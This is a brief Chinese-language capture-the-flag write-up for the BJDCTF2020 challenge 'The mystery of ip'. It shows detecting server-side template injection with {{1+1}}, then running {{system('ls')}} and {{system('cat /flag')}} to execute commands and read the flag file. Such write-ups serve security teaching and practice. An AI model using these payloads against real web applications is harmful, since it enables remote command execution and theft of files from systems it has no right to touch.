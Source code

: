 # [BJDCTF2020]The mystery of ip

## 知识点

`SSTI`

## 解题

输入什么回显什么，测试加`'`加`or '1=1'`都回显的是本身的内容

![](./img/Themysteryofip-1.png)

测试模板注入`{{1+1}}`发现回显`2`

![](./img/Themysteryofip-2.png)

使用`php`模板注入`payload`即可

```
{{system('ls')}}
{{system('cat /flag')}}
```


